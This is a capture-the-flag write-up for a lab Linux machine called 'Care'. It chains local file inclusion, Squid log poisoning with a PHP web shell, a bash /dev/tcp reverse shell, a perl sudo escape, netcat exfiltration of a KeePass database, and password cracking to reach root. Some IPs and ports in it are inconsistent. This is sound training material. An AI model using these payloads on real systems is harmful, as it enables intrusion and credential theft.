# Care — CTF Machine Report

**Difficulty:** Easy/Medium 

**OS:** Linux (Debian) 

**IP:** 10.13.1.160
**Kernel:** 6.1.0-28-amd64

**Web Server:** Apache httpd 2.4.62

---

## Machine Overview

| Field | Details |
| --- | --- |
| IP Address | 10.13.1.160 |
| Operating System | Linux (Debian) |
| Kernel Version | 6.1.0-28-amd64 |
| Open Ports | 22, 80, 3128 |
| Services | SSH, HTTP, Squid HTTP Proxy |
| Difficulty | Easy/Medium |

---

## Captured Flags

| Flag | Hash |
| --- | --- |
| User Flag | `97c62ffbfe2e1c78d8048ae2a699619a` |
| Root Flag | `3ba0b1d7e2e14ffd1f5b9788aa957bfd` |

---

## Phase 1 — Enumeration

### Nmap Scan

```
nmap -sS -sV -sC -T4 -p- --min-rate 5000 10.13.1.160
```



**Open ports:**

| Port | Service | Notes |
| --- | --- | --- |
| 22/tcp | SSH (OpenSSH 9.2p1) | Remote access |
| 80/tcp | HTTP (Apache 2.4.62) | vCare Bootstrap theme |
| 3128/tcp | Squid HTTP Proxy 5.7 | Internal proxy service |

### Web Enumeration

Browsing to port 80 showed a site using the vCare Bootstrap theme. Checking the page source revealed a `page.php?i=` parameter — a classic indicator of Local File Inclusion (LFI).





Tested LFI:

```
http://10.1.13.1.160/page.php?i=/etc/passwd
```



**Result:** `/etc/passwd` contents returned. User `dorian` discovered.

---

## Phase 2 — Exploitation

### Log Poisoning via Squid Proxy (LFI + SSRF → RCE) **SSRF (Server-Side Request Forgery)**

Since Squid proxy was running on port 3128, requests through it get logged to `/var/log/squid/access.log`. We poisoned the log by sending a PHP web shell as the User-Agent:

```
curl -sX GET --proxy "http://10.13.1.160:3128" "http://127.0.0.1:80" -A '<?php system($_GET["cmd"]); ?>'
```



Then executed commands by including the poisoned log via LFI:

```
http://10.13.1.160/page.php?i=/var/log/squid/access.log&cmd=id
```



**Result:** Remote code execution confirmed as `www-data`.

### Reverse Shell

Started a listener on Kali:

```
nc -lvnp 6979
```

Triggered reverse shell:

```
http://10.13.1.160/page.php?i=/var/log/squid/access.log&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.13.1.144/4444+0>%261'
```



**Reverse shell received as `www-data`.**

---

## Phase 3 — Initial Access (www-data → dorian)

Stabilized the shell, then checked sudo permissions:

```
sudo -l
```



`www-data` can run `/usr/bin/perl` as `dorian` with no password (NOPASSWD).

Used GTFOBins perl shell escape:

```
sudo -u dorian perl -e 'exec "/bin/bash"'
```





**Lateral movement to dorian successful.**

```
cat ~/user.txt
# 97c62ffbfe2e1c78d8048ae2a699619a
```



**User flag captured.**

---

## Phase 4 — Post-Exploitation

Searched for writable files:

```
find / -type f -writable 2>/dev/null | grep -v "sys" | grep -v "proc"
```



Found `/home/dorian/.bak/data.txt` — a KeePass database file.



Transferred it to Kali using netcat:

```
# On Kali (receiver):
nc -lvnp 4444 > data.txt

# On target (victim):
nc 10.1.13.160 4444 < /home/dorian/.bak/data.txt
```

---

## Phase 5 — KeePass Hash Cracking

Extracted the hash from the KeePass database using keepass2john:

```
./keepass2john ../../data.txt > ../../hash.txt
```

Cracked the hash with John the Ripper:

```
./john ../../hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Master password found:** `diamond` 



**If there is no keepass2john tool you need to download it from github    !!!!!    :** 

```bash
git clone https://github.com/openwall/john -b bleeding-jumbo
```

Download `KeePassXC` tool to open database:

```bash
wget https://github.com/keepassxreboot/keepassxc/releases/download/2.7.11/KeePassXC-2.7.11-1-x86_64.AppImage
```



Opened the database with KeePassXC and found root credentials stored inside:



```
Username: root
Password: r00tB0$$123!
```



---

## Phase 6 — Privilege Escalation (dorian → root)

```
su root
# Password: r00tB0$$123!

id
# uid=0(root) gid=0(root) groups=0(root)
```



```
cat /root/root.txt
# 3ba0b1d7e2e14ffd1f5b9788aa957bfd
```



**Root obtained. Root flag captured.**

---

## Attack Path Summary

1. Nmap found LFI-vulnerable `page.php?i=` parameter on port 80 and Squid proxy on port 3128.
2. Poisoned Squid access log by sending PHP webshell as User-Agent via the proxy.
3. Triggered RCE by including the poisoned log through LFI.
4. Got reverse shell as `www-data`.
5. `sudo -l` showed `www-data` can run perl as dorian — used GTFOBins escape to move to dorian.
6. Grabbed user flag.
7. Found KeePass database in dorian's `.bak/` directory.
8. Transferred DB to Kali, extracted hash with keepass2john, cracked it with John → password `diamond`.
9. Opened KeePass with KeePassXC — found root password `r00tB0$$123!`.
10. `su root` → root shell → root flag.

## Attack Path Summary

1. Nmap found LFI-vulnerable `page.php?i=` parameter on port 80 and Squid proxy on port 3128.
2. Poisoned Squid access log by sending PHP webshell as User-Agent via the proxy.
3. Triggered RCE by including the poisoned log through LFI.
4. Got reverse shell as `www-data`.
5. `sudo -l` showed `www-data` can run perl as dorian — used GTFOBins escape to move to dorian.
6. Grabbed user flag.
7. Found KeePass database in dorian's `.bak/` directory.
8. Transferred DB to Kali, extracted hash with keepass2john, cracked it with John → password `diamond`.
9. Opened KeePass with KeePassXC — found root password `r00tB0$$123!`.
10. `su root` → root shell → root flag.

---

## Vulnerability Summary

| # | Vulnerability | Severity | Impact |
| --- | --- | --- | --- |
| 1 | Local File Inclusion (page.php?i=) | High | File read, log poisoning |
| 2 | Squid proxy log poisoning | Critical | Remote code execution |
| 3 | NOPASSWD sudo on perl (www-data) | High | Lateral movement to dorian |
| 4 | KeePass database stored in writable directory | High | Credential theft |
| 5 | Weak KeePass master password | Medium | Database cracked via wordlist |
| 6 | Root credentials stored in KeePass | Critical | Full system compromise |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Description |
| --- | --- | --- | --- |
| Reconnaissance | Active Scanning | T1595 | Port scanning with nmap |
| Discovery | Network Service Discovery | T1046 | Service enumeration (LFI, Squid) |
| Initial Access | Exploit Public-Facing Application | T1190 | LFI via page.php?i= parameter |
| Execution | Server-Side Request Forgery | T1190 | Squid proxy used to poison access log |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | RCE via poisoned log + LFI |
| Execution | Command and Scripting Interpreter: Perl | T1059 | Perl used for lateral movement |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo | T1548.003 | NOPASSWD sudo perl to move to dorian |
| Credential Access | Credentials from Password Stores | T1555 | KeePass database extracted and cracked |
| Credential Access | Brute Force: Password Cracking | T1110.002 | keepass2john + John the Ripper |
| Lateral Movement | Valid Accounts: Local Accounts | T1078.003 | su root with credentials from KeePass |
| Collection | Data from Local System | T1005 | KeePass DB transferred via netcat |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 | File transfer via netcat |

---

## Conclusion

The Care machine demonstrated how a chain of seemingly small misconfigurations can lead to full system compromise. An exposed LFI parameter combined with an accessible Squid proxy allowed log poisoning to achieve RCE. From there, a weak sudo policy enabled lateral movement, and poor secrets management — storing a KeePass database with a weak master password — handed over root credentials directly.

---

Happy Hacking!